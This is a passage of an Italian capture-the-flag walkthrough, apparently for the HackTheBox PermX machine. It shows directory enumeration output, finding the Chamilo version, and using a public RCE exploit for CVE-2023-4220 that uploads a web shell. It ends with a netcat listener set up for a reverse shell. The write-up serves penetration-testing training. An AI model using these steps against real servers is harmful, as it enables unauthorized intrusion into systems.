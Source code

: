```bash
[22:17:59] 200 -   46B  - /.bowerrc
[22:18:00] 200 -    2KB - /.codeclimate.yml
[22:18:04] 403 -  278B  - /.ht_wsr.txt
[22:18:04] 403 -  278B  - /.htaccess.bak1
[22:18:04] 403 -  278B  - /.htaccess.orig
[22:18:05] 403 -  278B  - /.htaccess.sample
[22:18:05] 403 -  278B  - /.htaccess_orig
[22:18:05] 403 -  278B  - /.htaccess.save
[22:18:05] 403 -  278B  - /.htaccess_sc
[22:18:05] 403 -  278B  - /.htaccess_extra
[22:18:05] 403 -  278B  - /.htaccessBAK
[22:18:05] 403 -  278B  - /.htaccessOLD
[22:18:05] 403 -  278B  - /.htaccessOLD2
[22:18:05] 403 -  278B  - /.htm
[22:18:05] 403 -  278B  - /.htpasswd_test
[22:18:05] 403 -  278B  - /.html
[22:18:05] 403 -  278B  - /.httr-oauth
[22:18:05] 403 -  278B  - /.htpasswds
[22:18:09] 403 -  278B  - /.php
[22:18:11] 200 -    3KB - /.scrutinizer.yml
[22:18:13] 200 -    4KB - /.travis.yml
```

il file `.travis.yml` sempre interessante proviamo a scaricarlo e vedere cosa contiene.
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/permx3.png)
Sembra essere un file di configurazione. che ci fornisce la versione di Chamilio la `1.11.x`

# GAINING AN INITIAL FOOTHOLD 

Dopo una rapida ricerca per la versione di Chamilio troviamo [questa RCE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) relativa [alla CVE 2023-4220](https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949))

Leggiamo che consente agli aggressori non autenticati di eseguire attacchi di scripting cross-site archiviati e ottenere codice remoto esecuzione tramite caricamento di una web shell all'endpoint `/main/inc/lib/javascript/bigupload/files/`.

Bene non ci resta che scaricare il tutto e testare

```bash
kali@kali ~/htb/permx
❯python3 main.py -u http://example.com/chamilo -a scan
[+] Target is likely vulnerable. Go ahead. [+]
```

Perfetto, ora l'exploit ci consente anche di avere una revshell pronta all'uso ma prima ci mettiamo in ascolto come sempre con [Netcat](Note/Tool/Netcat.md)
```bash
kali@kali ~/htb/permx
❯ nc -lnvp 1010
listening on [any] 1010 ...
```
